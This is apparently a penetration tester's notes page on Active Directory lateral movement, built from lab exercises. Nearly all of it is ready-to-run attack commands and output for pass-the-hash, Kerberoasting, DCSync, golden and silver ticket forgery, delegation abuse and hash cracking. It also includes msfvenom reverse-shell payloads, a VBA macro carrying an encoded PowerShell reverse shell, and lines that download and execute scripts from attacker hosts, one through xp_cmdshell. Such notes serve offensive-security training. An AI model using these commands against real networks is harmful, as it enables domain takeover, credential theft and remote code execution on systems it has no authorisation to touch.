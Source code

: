 # Lateral Movement

<details>

<summary>Admin Password Reuse</summary>

Using crackmapexec:

```bash
└─# crackmapexec smb 10.11.1.20-24 -u administrator -H 'ee0c207898a5bccc01f38115019ca2fb' --local-auth --lsa 
SMB         10.11.1.22      445    SVCLIENT08       [*] Windows 10 Pro N 14393 x64 (name:SVCLIENT08) (domain:SVCLIENT08) (signing:False) (SMBv1:True)
SMB         10.11.1.21      445    SV-FILE01        [*] Windows Server 2016 Standard 14393 x64 (name:SV-FILE01) (domain:SV-FILE01) (signing:False) (SMBv1:True)
SMB         10.11.1.24      445    SVCLIENT73       [*] Windows 10 Pro N 14393 x64 (name:SVCLIENT73) (domain:SVCLIENT73) (signing:False) (SMBv1:True)
SMB         10.11.1.20      445    SV-DC01          [*] Windows 10.0 Build 17763 x64 (name:SV-DC01) (domain:SV-DC01) (signing:True) (SMBv1:False)
SMB         10.11.1.22      445    SVCLIENT08       [+] SVCLIENT08\administrator:ee0c207898a5bccc01f38115019ca2fb (Pwn3d!)
SMB         10.11.1.21      445    SV-FILE01        [-] SV-FILE01\administrator:ee0c207898a5bccc01f38115019ca2fb STATUS_LOGON_FAILURE 
SMB         10.11.1.24      445    SVCLIENT73       [+] SVCLIENT73\administrator:ee0c207898a5bccc01f38115019ca2fb (Pwn3d!
```

* Login with impacket psexec using hashes

```bash
impacket-psexec jimmy@192.168.35.142 -hashes ee0c207898a5bccc01f38115019ca2fb
```

</details>

<details>

<summary>Obtain Kerberos Ticket</summary>

* Sync the Kali's timing with the DC timing.

```bash
ntpdate <dc_ip>
```

* To collect the Kerberos Ticket

```bash
impacket-GetUserSPNs hacker.local/Administrator:Password1 -dc-up 192.168.35.142 -request
```

</details>

<details>

<summary>Getting TGT from Service</summary>

For pass the ticket attack

```bash
impacket-GetNPUsers -dc-ip 10.10.10.10 active.htb/SVC-TGS -no-pass
```

</details>

<details>

<summary>Pass the Hash</summary>

* Works only for server or service using NTLM authentication, not Kerberos authentication.
* Requires local administrative permissions.

Retrieve the content of the Windows Security Account Manager (SAM) file to dump client01's hashes.

```sh
reg save hklm\sam c:\windows\temp\sam
```

```sh
reg save hklm\system c:\windows\temp\system
```

```sh
impacket-secretsdump -system system -sam sam local
```

```bash
impacket-secretsdump Hacker.local/hguy:password@192.168.35.144'
```

Connect to victim by passing the hash

```sh
impacket-psexec Administrator:@192.168.199.59 -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5
```

* hashes in the format: \<LM>:\<NT>
* LM hashes discontinued since Win10

</details>

<details>

<summary>Pass the Hash with Computer Account</summary>

```bash
sekurlsa::pth /user:web01$ /domain:EVIL.COM /ntlm:f4528218862ef1bed4c351d7b10d77fd
```

</details>

<details>

<summary>Kerberoasting</summary>

To obtain TGS-REP hash to crack service accounts passwords.

### Invoke-Kerberoast.ps1

Collects a list of service accounts along with their correlating password hashes

```sh
powershell -ep bypass -c "Import-Module .\Invoke-Kerberoast.ps1; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"
```

### Rubeus.exe

[https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

```bash
C:\temp>Rubeus.exe kerberoast
Rubeus.exe kerberoast

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Kerberoasting
...
```

### GetUserSPNs.py

* Good when don't have access to the victim
* On the attacker:

```bash
GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

### Transferring Files

```sh
python2.7 -m pyftpdlib -p 21 --write
```

### Cracking Hashes

```sh
hashcat -m 13100 -a 0 kerb.txt /usr/share/wordlists/rockyou.txt
```

</details>

<details>

<summary>Overpass the Hash</summary>

* “Over” abuse a NTLM user hash to gain a full Kerberos Ticket Granting Ticket or service ticket
* Requires local admin rights

1. Obtain the NTLM hash first&#x20;

```
mimikatz.exe
```

```
privilege::debug
```

```
sekurlsa::logonpasswords
```

2. Creates a new PowerShell process in the context of the Jeff\_Admin user

```
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
```

3. Inside the new Powershell session, generate a TGT by authenticating to a network share on the domain controller.&#x20;

```powershell
net use \\dc01
```

* We used "net use" arbitrarily in this example but we could have used any command that requires domain permissions and would subsequently create a TGS.

```
klist
```

4. Since we have generated Kerberos tickets and operate in the context of Jeff\_Admin in the PowerShell session, we may reuse the TGT to obtain code execution on the domain controller

```
.\PsExec.exe \\dc01 cmd.exe
```

</details>

<details>

<summary>Pass the Ticket</summary>

Takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service.

1. Obtain SID of user

```sh
whoami /user
```

* Eg: SID:S-1-5-21-1602875587-2787523311-2599479668-1103 (Don't include 1103)&#x20;

2. Use Mimikatz

```bash
kerberos:purge
```

```bash
kerberos::list
```

* Ensure that no kerberos ticket is present

```bash
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```

* To create a silver ticket, we use the password hash and not the cleartext password. If a kerberoast session presented us with the cleartext password, we must hash it before using it to generate a silver ticket.

```
kerberos::list
```

3. Now that we have this ticket loaded into memory, we can interact with the service and gain access to any information based on the group memberships we put in the silver ticket.

</details>

<details>

<summary>NTDSam</summary>



</details>

<details>

<summary>DCSync</summary>

### From Bloodhound:

![](<../.gitbook/assets/image (140).png>)

### Using Secretsdump

```bash
secretsdump.py -just-dc svc_loanmgr@10.10.10.175 -outputfile dcsync_hashes
#Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

#Password:
#[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
#[*] Using the DRSUAPI method to get NTDS.DIT secrets
#Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
```

### Using Mimikatz (Powershell)

* Download Invoke-Mimikatz.ps1 from [here](https://github.com/phra/PowerSploit/raw/4c7a2016fc7931cd37273c5d8e17b16d959867b3/Exfiltration/Invoke-Mimikatz.ps1)

```bash
Invoke-Mimikatz -Command '"lsadump::dcsync /user:administrator"'
# OR
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator"'
```

</details>

<details>

<summary>Cracking Mscash (Cached Domain Credentials)</summary>

[https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

```bash
secretsdump.py administrator@172.16.197.11 -hashes :f1014ac49bae005ee3ece5f47547d185 
# MEDTECH.COM/Administrator:$DCC2$10240#Administrator#a7c5480e8c1ef0ffec54e99275e6e0f7
# MEDTECH.COM/yoshi:$DCC2$10240#yoshi#cd21be418f01f5591ac8df1fdeaa54b6
# MEDTECH.COM/wario:$DCC2$10240#wario#b82706aff8acf56b6c325a6c2d8c338a
```

### Format into $DCC2$10240#username#hash format for hashcat&#x20;

```bash
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 medtech_hashes
# $DCC2$10240#Administrator#a7c5480e8c1ef0ffec54e99275e6e0f7
# $DCC2$10240#yoshi#cd21be418f01f5591ac8df1fdeaa54b6
# $DCC2$10240#wario#b82706aff8acf56b6c325a6c2d8c338a
# $DCC2$10240#joe#464f388c3fe52a0fa0a6c8926d62059c
```

### Crack with Hashcat

```bash
hashcat -m 2100 -a 0 hash.txt rockyou.txt
```

</details>

<details>

<summary>WriteDacl (Bloodhound)</summary>

* Download PowerView from [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)

#### On Victim:

```bash
*Evil-WinRM* PS C:\temp> Bypass-4MSI
Info: Patching 4MSI, please be patient...
[+] Success!

*Evil-WinRM* PS C:\temp> iex(new-object net.webclient).downloadstring('http://10.10.14.4/PowerView.ps1')

*Evil-WinRM* PS C:\temp> net user john abc123! /add /domain
The command completed successfully.
*Evil-WinRM* PS C:\temp> net group "Exchange Windows Permissions" john /add
# Needed cuz based on bloodhound, exhange windows permissions group has writedacl privileges for domain
The command completed successfully.
*Evil-WinRM* PS C:\temp> net localgroup "Remote Management Users" john /add
The command completed successfully.

*Evil-WinRM* PS C:\temp> $pass = convertto-securestring 'abc123!' -asplain -force
*Evil-WinRM* PS C:\temp> $cred = new-object system.management.automation.pscredential('htb\john', $pass)
*Evil-WinRM* PS C:\temp> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```

#### On Attacker:

```bash
secretsdump.py htb/john@10.10.10.161
# [*] Using the DRSUAPI method to get NTDS.DIT secrets
# htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

</details>

<details>

<summary>Distributed Component Object Model</summary>

* is a system for creating software components that interact with each other within or across processes.

- Requires Local admin (to call the DCOM Service Control Manager)
- Requires port 135, 445
- Requires Microsoft office to be installed on target

1. Create an instance of the Object on the target

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))
```

2. Check the available methods for the object

```powershell
$com | Get-Member
```

* If it has the `Run` method, attacker is able to execute Visual Basic for Applications (VBA) macro remotely.

3. Generate Reverse shell payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o evil.hta
```

4. Extract from the generated payload, the line starting with `powershell.exe -nop -w hidden -e` followed by the Base64 encoded payload and use the simple Python script to split the command into smaller chunks (ensuring that the literal strings limit in Excel macros is met.)

```python
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

5. Put the reverse shell payload into macro

```vba
Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    ...
    Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
    Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
    Shell (Str)
End Sub
```

* Save the file in `Excel 97-2003 Workbook` format.

6. Transfer the file over to target using SMB, open the excel file and run the macro.

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))

$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"

$RemotePath = "\\192.168.1.110\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")

```

</details>

<details>

<summary>Dump Domain Admin Hash from DC</summary>

```bash
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:prod.corp1.com /user:prod\administrator
evil-winrm  -i 192.168.70.70 -u administrator -H 2892d26cdf84d7a70e2eb3b9f05c425e
```

</details>

<details>

<summary>Change Domain Admin password</summary>

* From high privilege shell
* Changes the password to `password`

```sh
net user /domain administrator password
```

</details>

<details>

<summary>Open CMD Prompt as Another User</summary>

```bash
runas /user:corp\jen powershell.exe
```

</details>

## OSEP Notes below

<details>

<summary>Stealing Keytab files (Linux AD)</summary>

* Contains a kerberos principal name & encrypted keys
*   ```bash
    kinit administrator@CORP1.COM -k -t /tmp/administrator.keytab
    ```


* Verify that tickets from keytab have been loaded && renew tickets
  *   ```bash
      klist
      kinit -R
      ```


* Remove all kerberos tickets
  * ```bash
    kdestroy
    ```

</details>

<details>

<summary>Stealing Credential Cache Files (Linux AD)</summary>

* Check for presence with&#x20;
  *   ```bash
      ls -al /tmp/krb5cc_*
      ```


* Copy credential cache files to Kali
  *   ```bash
      scp root@linuxvictim:/tmp/krb5cc_607000500_qZWKpe .
      #scp -i  ssh_key pete@complyedge.com@web05:/tmp/krb5cc_75401103_PlYU68 .
      ```


* Set environment variable on Kali
  *   ```bash
      export KRB5CCNAME=/home/kali/Documents/offsec/linux_lateral_movement/krb5cc_607000500_qZWKpe
      ```


*   Install the following, if required

    * ```bash
      sudo apt install krb5-user
      ```


* Add target DC and generic domain to /etc/hosts
  *

      <figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* IMPT: THE SOURCE OF THE KERBEROS REQUEST MATTERS!!! --> SET UP [LIGOLO-NG!](../post-exploitation/port-forwarding-pivoting.md#ligolo-ng)
* Then, can
  * <pre class="language-bash"><code class="lang-bash"><strong>impacket-psexec Administrator@DC01.CORP1.COM -k -no-pass
    </strong></code></pre>

</details>

<details>

<summary>Creating Keytab files (Linux AD)</summary>

* Create in /tmp/administrator.keytab
* ```bash
  ktutil
  addent -password -p administrator@CORP1.COM -k 1 -e rc4-hmac
  wkt /tmp/administrator.keytab
  quit
  ```

</details>

<details>

<summary>Creating Credential Cache Files (Linux AD)</summary>

* Acquire TGT for current user
  *   ```bash
      kinit
      ```


* List tickets currently stored in user's credential cache file
  *   ```bash
      klist
      ```


* Get a list of available SPN from DC
  *   ```bash
      ldapsearch -Y GSSAPI -H ldap://dc01.corp1.com -D "Administrator@CORP1.COM" -W -b "dc=corp1,dc=com" "servicePrincipalName=*" servicePrincipalName
      ```


* Request a service ticket from Kerberos for MSSQL SPN
  * ```bash
    kvno MSSQLSvc/DC01.corp1.com:1433
    ```

</details>

<details>

<summary>Abusing GenericAll</summary>

## For Domain User

* Change password of an account
  *   ```powershell
      net user testservice1 P@ssw0rd /domain
      ```


* Spawn new powershell.exe in context of testservice1
  *   ```powershell
      runas /user:prod\testservice1 powershell.exe
      ```



## For Domain Group

* ```powershell
  net group testgroup offsec /add /domain
  ```

</details>

<details>

<summary>Exploiting WriteDACL</summary>

* Can add new access rights like GenericAll, GenericWrite, or even DCSync
*

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
* Adding GenericAll rights:
  * ```powershell
    # Might need to migrate to sqlsvc process using metasploit

    # Load PowerView
    iex (new-object net.webclient).downloadstring('http://192.168.45.215/PowerView.ps1')

    # Modify sqlsvc to have full control over the mailadmins group
    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "mailadmins" -PrincipalIdentity "sqlsvc"

    # Add sqlsvc to mailadmins domain group
    net group "mailadmins" sqlsvc /add /domain

    # Verify that sqlsvc is inside mailadmins group
    net user sqlsvc /domain
    ```

</details>

<details>

<summary>Exploiting GenericWrite on Another User</summary>

### Set Login Script for victim user

* Generate using [csharp\_shellcode python script](../good-exploit-code/c-shellcode-runner.md#process-injector-example)

```powershell
# Load PowerView
iex (new-object net.webclient).downloadstring('http://192.168.45.218/PowerView.ps1')

# Setup SMB server
sudo python3 /usr/local/bin/smbserver.py share . -smb2support

# Logon Script to point to rev shell exe
Set-DomainObject -Identity SHAUN.BLAKE -Set @{'scriptpath'='\\192.168.45.218\share\ProcessInjection.exe'}
```

### Cracking User's Password

* Able to set a service principal name and kerberoast that account
  *   ```powershell
      ./targetedKerberoast.py --dc-ip '192.168.170.70' -v -d 'prod.corp1.com' -u 'offsec' -p 'lab'
      ```


* Obtain TGS-REP hash
  *   ```bash
      hashcat -m 13100 hash.txt rockyou.txt
      ```



</details>

<details>

<summary>Exploiting GenericWrite on Computer Object</summary>

![](<../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png>)

* Enumerating permissions assigned to current user
  *   ```powershell
      Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```


  * Since we have GenericWrite on appsrv01, we can update any non-protected property on that object, including msDS-AllowedToActOnBehalfOfOtherIdentity and add the SID of a different computer.

- <pre class="language-powershell"><code class="lang-powershell"># Create a fake computer account
  . .\powermad.ps1
  New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
  Get-DomainComputer -Identity myComputer

  # Get the SID of myComputer$
  $sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid

  # Create a Security Descriptor for RBCD
  $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"

  # Convert and Apply the Security Descriptor to appsrv01
  $SDbytes = New-Object byte[] ($SD.BinaryLength)
  $SD.GetBinaryForm($SDbytes,0)
  Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

  # Verify That RBCD Was Configured
  $RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
  $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
  $Descriptor.DiscretionaryAcl

  # Verify the SID Mapping
  ConvertFrom-SID S-1-5-21-634106289-3621871093-708134407-3601

  # Generate an NTLM Hash for myComputer$
  .\Rubeus.exe hash /password:h4x

  # Request a Ticket Granting Service (TGS) Ticket Using Rubeus
  .\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt

  # Verify Remote Access to appsrv01
  dir \\appsrv01.prod.corp1.com\c$

  # Obtaining code execution
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=80 EXITFUNC=thread -f exe -o shell.exe
  copy shell.exe \\appsrv01.prod.corp1.com\C$\Windows\Temp\shell.exe
  wmic /node:appsrv01.prod.corp1.com process call create "C:\Windows\Temp\shell.exe"

  <strong>#OR 
  </strong>
  python3 mkpsrevshell.py 192.168.45.222 443
  wmic /node:appsrv01.prod.corp1.com process call create "powershell -e JABjAG.."

  </code></pre>

</details>

<details>

<summary>Exploiting ForceChangePassword</summary>

<figure><img src="../.gitbook/assets/image (317).png" alt=""><figcaption></figcaption></figure>

Currently, pwned adminwebsvc@final.com --> part of webadmins grp --> able to ForceChangePassword for Nina

```powershell
iex(new-object net.webclient).downloadstring('http://192.168.45.160/PowerView.ps1')	
$NewPassword = ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force
Set-DomainUserPassword -Identity Nina -AccountPassword $NewPassword
```

</details>

<details>

<summary>Unconstrained Delegation</summary>

![](<../.gitbook/assets/image (313).png>)

* Allows forwardable TGT --> frontend service is able to perform authentication on behalf of user to any service

## Enumeration

```powershell
Import-Module powerview.ps1
Get-DomainComputer -Unconstrained
# Domain Controllers are configured with unconstrained delegation by default

#To know the IP of the target
nslookup appsrv01
```

## Exploitation

* Must be local admin on the target (eg: appsrv01)
*   3 methods

    * Have domain admin visit the application using uncontrained kerberoast --> dump TGT of admin
      *   ```
          sekurlsa::tickets
          ```

          <figure><img src="../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>


      *   ```
          sekurlsa::tickets /export
          ```

          <figure><img src="../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>


      *   ```
          kerberos::ptt [0;1801fa]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
          ```

          <figure><img src="../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>


      *   ```powershell
          exit
          # Verify that we have the TGT
          klist
          # Laterally move to DC
          C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd.exe
          ```


    * OR Krbrelayx attack on unconstrained delegation
      *

          <figure><img src="../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


      * Dump the NTLM hashes for Files01 computer account (FILES01$)![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)
        *   ```powershell
            impacket-secretsdump CORP/adam:4Toolsfigure3@192.168.101.104
            ```


      * Add an SPN for `attacker.corp.com` on `FILES01$`
        *   ```powershell
            python3 addspn.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -s HOST/attacker.corp.com --additional 'dc01.corp.com'
            ```


      * Add a DNS Entry for `attacker.corp.com` in Active Directory
        *   ```powershell
            python3 dnstool.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -r 'attacker.corp.com' -d '192.168.45.211' --action add 'dc01.corp.com'
            ```


      * Verify DNS Resolution for Attacker Host
        *   ```powershell
            nslookup attacker.corp.com dc01.corp.com
            ```


      * Start `krbrelayx` to Relay Authenticated TGT
        *   ```powershell
            # aes256-cts-hmac-sha1-96
            python3 krbrelayx.py -aesKey 00ba3cfd9198fa8a6dc795324242810e98c7d36d083bd811fdfe204ef30cc7a7
            ```


      * Trigger Authentication from the DC Using the Print Spooler Bug
        *   ```powershell
            python3 krbrelayx.py -aesKey python3 printerbug.py "corp.com/FILES01$"@dc01.corp.com -hashes aad3b435b51404eeaad3b435b51404ee:22a506a9cabc86c93dda21decc4b2e75 "attacker.corp.com"
            ```


        * If errors out --> rerun the impacket secretdump again to obtain the computer hashes
        * Check if got ccache file in the directory
      * Use the Captured TGT to Dump Credentials from the DC
        *   ```powershell
            impacket-secretsdump -k -no-pass "corp.com/DC01$"@dc01.corp.com
            ```


      * Running Impacket-PsExec for Remote Code Execution
        * ```powershell
          impacket-psexec admin@dc01.corp.com -hashes :<nt hash>
          ```



    * OR Force high-privileged authentication without any user interaction (PrintSpooler)
      *   ```powershell
          Rubeus.exe monitor /interval:5 /filteruser:CDC01$
          SpoolSample.exe <target-machine> <capture-server>
              #SpoolSample.exe CDC01 APPSRV01
          Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo…
          ```


      * Since machine account (CDC01$) is not local admin on DC, can't laterally move to it
      * Can laterally move via:
        * [Golden Ticket](persistence.md#golden-ticket)
        * [Dump administrator hash](lateral-movement.md#dump-domain-admin-hash-from-dc)

</details>

<details>

<summary>Constrained Delegation</summary>

* Solve the double-hop issue while limiting access to only the desired backend service defined in msds-allowedtodelegateto
* S4U2Self --> Allows a service to request Kerberos TGS for any user, including domain admin, without needing their passwords or hash
* S4U2Proxy --> Allows a service to take a TGS from S4U2Self and exchange it for a TGS to a backend service

![](<../.gitbook/assets/image (11) (1) (1).png>)

## Enumeration

*   <pre class="language-powershell"><code class="lang-powershell"><strong>#Powerview
    </strong><strong>Get-DomainUser -TrustedToAuth
    </strong></code></pre>

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Contained delegation is configured on IISSvc and it is only allowed to MSSQLSvc

## Exploitation 1

* Compromise the IISSvc account
  * ```powershell
    # Generate the NTLM hash
    .\Rubeus.exe hash /password:lab
    # Generate TGT for IISSvc
    .\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
    ```
* Use S4U2Proxy to get a ticket to MSSQL (SPN listed in msds-allowedtodelegateto field)
  * ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt
    ```
*   Execute code on MSSQL

    * Enumerate the user logged in to MSSQL --> logged in as the domain admin

    <figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Exploitation 2

* Modify service names in memory to gain unauthorized access to different services on same host
* When TGS is returned by KDC, only server name is encrypted but not service name
* Attacker can modify service name to authenticate to different service
* For instance if msDS-AllowedToDelegateTo is set to MSSQLSvc/cdc01.prod.corp1.com
* Able to change it to access file system (cifs)
*   ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com /altservice:CIFS /ptt
    ```



## Exploitation 3

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png>)

* Obtain a Ticket Granting Ticket (TGT) for the Service Account
  *   ```powershell
      impacket-getTGT corp.com/iissvc -hashes :12bb0b468b42c76d48a3a5ceb8ade2e9
      export KRB5CCNAME=iissvc.ccache
      ```


* Obtain a Service Ticket (ST) for MSSQL Service as Administrator
  *   ```powershell
      impacket-getST -spn mssqlsvc/sql01.corp.com:1433 -impersonate administrator corp.com/iissvc -k -no-pass
      export KRB5CCNAME=administrator.ccache
      ```


* Access the SQL Server as Administrator
  *   ```powershell
      impacket-mssqlclient sql01.corp.com -k
      ```


* Check the current user and privileges inside SQL Server:
  *   ```sql
      SELECT SYSTEM_USER;
      SELECT IS_SRVROLEMEMBER('sysadmin');
      SELECT CURRENT_USER;
      ```


* Execute Reverse Shell via xp\_cmdshell in sql server
  * ```sql
    EXECUTE AS LOGIN = 'sa';
    EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
    EXEC xp_cmdshell 'powershell -c "IEX (New-Object Net.WebClient).DownloadString(\"http://192.168.45.211/runall.ps1\")"';
    ```

</details>

<details>

<summary>Resource-Based Constrained Delegation</summary>

* msDS-AllowedToActOnBehalfOfOtherIdentity
* Backend service controls which frontend services can delegate on behalf of users
* Attack against RBCD needs to happen from a computer account or a service account with a SPN

[Exploiting GenericWrite on Computer Object](lateral-movement.md#exploiting-genericwrite-on-computer-object)

* Find which computers we can modify using GenericWrite permissions
  *   ```powershell
      Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {
          $_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_
      } | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
      ```


* Add a New Computer Account (myComputer$) to the Domain
  *   ```powershell
      impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      ```


* Configure RBCD on the Target Machine (BACKUP01$)
  *   ```powershell
      impacket-rbcd -action write -delegate-to "BACKUP01$" -delegate-from "myComputer$" corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      ```


* Obtain a Service Ticket (ST) as Administrator
  *   ```powershell
      impacket-getST -spn cifs/backup01.corp.com -impersonate administrator 'corp.com/myComputer$:h4x'
      ```


* Use ccache file
  * ```
    mv administrator@cifs_jump09.ops.comply.com@OPS.COMPLY.COM.ccache new_admin.ccache
    KRB5CCNAME=/home/kali/Documents/offsec/challenges/5/new_admin.ccache
    ```
* Execute Commands as Administrator
  * ```powershell
    impacket-psexec administrator@backup01.corp.com -k -no-pass
    ```

</details>

<details>

<summary>Extra SID Attack</summary>

## Using KRBTGT

* Extracts krbtgt hash for creating a Golden Ticket
  *   ```powershell
      lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
      ```


* Enumerate Domain & Trust Information (using powerview)
  *   ```powershell
      Get-DomainSID -Domain prod.corp1.com
      Get-DomainSid -Domain corp1.com
      ```


* Forge a Golden Ticket with Extra SIDs
  *   ```powershell
      # kerberos::golden /user:<FakeUser> /domain:<OriginDomain> /sid:<OriginDomainSID> /krbtgt:<krbtgtHash> /sids:<RootDomainSID>-519 /ptt
      kerberos::golden /user:h4x /domain:prod.corp1.com /sid:S-1-5-21-3776646582-2086779273-4091361643 /krbtgt:4b6af2bf64714682eeef64f516a08949 /sids:S-1-5-21-1095350385-1831131555-2412080359-519 /ptt
      ```


* Access Root Domain Controller
  *   ```powershell
      c:\tools\SysinternalsSuite\PsExec.exe \\rdc01 cmd
      whoami /groups
      ```



## Using Trust Key

* Extract trust key
  * Name of the account is always the same as the trusted domain
  *   ```powershell
      lsadump::dcsync /domain:prod.corp1.com /user:corp1$
      ```


* Get Domain SID
  *   ```powershell
      Get-DomainSID -Domain prod.corp1.com
      Get-DomainSID -Domain corp1.com
      ```


* Craft golden ticket
  *   ```powershell
      kerberos::golden /user:<user_name> /domain:<domain_name> /sid:<domain_sid> /sids:<sid_of_target_domain> /rc4:<trust_key_RC4_key> /service:krbtgt /target:<the_target_domain>
      kerberos::golden /user:Administrator /domain:prod.corp1.com /sid:S-1-5-21-634106289-3621871093-708134407 /rc4:d6eba9e9b9bb466be9d9d20c5584c9ef /sids:S-1-5-21-1587569303-1110564223-1586047116-519 /target:corp1.com /ticket:ticket.kirbi
      ```


* Inject ticket with Rubeus
  *   ```powershell
      Rubeus.exe asktgs /ticket:ticket.kirbi /dc:rdc01.corp1.com /service:cifs/rdc01.corp1.com /ptt
      ```


* Reinject to PsExec
